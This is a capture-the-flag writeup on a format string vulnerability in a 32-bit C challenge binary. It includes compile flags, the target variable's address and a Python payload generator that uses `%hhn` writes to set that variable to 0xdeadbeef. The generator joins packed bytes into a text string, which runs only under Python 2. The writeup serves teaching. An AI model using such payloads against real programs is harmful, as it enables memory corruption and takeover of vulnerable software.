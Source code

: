 # Challenge "Write_big_numbers" Writeup

- **Vulnerability**: Format String Vulnerability
  - _This type of vulnerability arises when user-supplied data is directly used as a format string in functions like `printf`, without appropriate validation. It can lead to arbitrary memory access or modification._
- **Where**: The vulnerability is located in the `vuln` function, particularly in the `printf(buffer)` call.
  - _In this instance, `buffer`, which is populated with user input, is unsafely used as a format string in `printf`, enabling the exploitation of the format string vulnerability._
- **Impact**: This vulnerability allows an attacker to write a specific value (`0xdeadbeef`) into the `target` variable.
  - _Through careful input crafting, an attacker can control the writing process to the `target` variable, demonstrating the capability to manipulate memory contents to meet specific conditions._
- **NOTE**: This challenge underscores the importance of proper input handling and showcases how format string vulnerabilities can be exploited to precisely modify memory contents, leading to unintended control flow changes or security compromises.

## Steps to Reproduce

1. **Compile the Vulnerable Program**: Use the provided C code and compile it with `gcc -m32 -Wall -Wextra -ggdb -no-pie`. This prepares the program with the format string vulnerability.
2. **Identify the Address of `target`**: Use debugging tools like GDB to determine the memory address of the `target` variable, which is `0x804c044`.
3. **Craft the Payload**: Develop a Python script to create a payload that utilizes the format string vulnerability. The payload should include the address of each byte of `target` and use format specifiers to write the bytes of `0xdeadbeef` into `target`.
   ```python
   import struct

   target_address = 0x804c044  # Address of 'target'
   bytes_to_write = [0xef, 0xbe, 0xad, 0xde]  # Bytes of 0xdeadbeef

   payload = "".join(struct.pack("<I", target_address + i) for i in range(4))
   printed_chars = 16  # Initial count from the addresses

   for i, byte_val in enumerate(bytes_to_write):
       padding = (byte_val - printed_chars) % 256
       if padding <= 0:
           padding += 256
       payload += "%{}c%{}$hhn".format(padding, 7 + i)
       printed_chars += padding

   print(payload)
    ```
4. **Execute the Vulnerable Program with the Payload**: Run the compiled program and input the generated payload. The program should overwrite the `target` variable with `0xdeadbeef`.

5. **Observe the Changed Program Behavior**: The program should recognize that the `target` variable has been modified to the specific value, displaying the success message and revealing the flag.
